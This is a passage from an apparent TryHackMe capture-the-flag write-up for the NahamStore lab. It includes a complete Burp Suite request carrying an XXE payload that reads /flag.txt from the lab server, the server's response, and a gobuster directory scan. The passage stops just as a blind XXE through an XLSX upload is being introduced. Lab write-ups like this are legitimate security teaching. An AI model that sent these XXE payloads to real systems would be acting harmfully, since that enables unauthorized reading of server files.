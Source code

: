 **Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token XXE payload is invalid</error></data>
```

It works! Let's retrive the `/flag.txt`!

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM 'file:///flag.txt'>]>
<data><X-Token>&xxe; </X-Token></data>
```

**Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token {Redacted}
 is invalid</error></data>
```

2. Blind XXE Flag

**At the Recon section, we discovered `/staff` and `uploads` directory in `nahamstore.thm`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# gobuster dir -u http://nahamstore.thm/ -w /usr/share/wordlists/dirb/common.txt -t 100              
[...]                       
/staff                (Status: 200) [Size: 2287]                           
/uploads              (Status: 301) [Size: 178] [--> http://127.0.0.1/uploads/]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a48.png)

**Which allows me to upload a `xlsx` file.**

> XLSX is a spreadsheet file that zipped with XML file inside.

According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file), we can use `XXE inside XLSX file`.

**To exploit it, we can:**

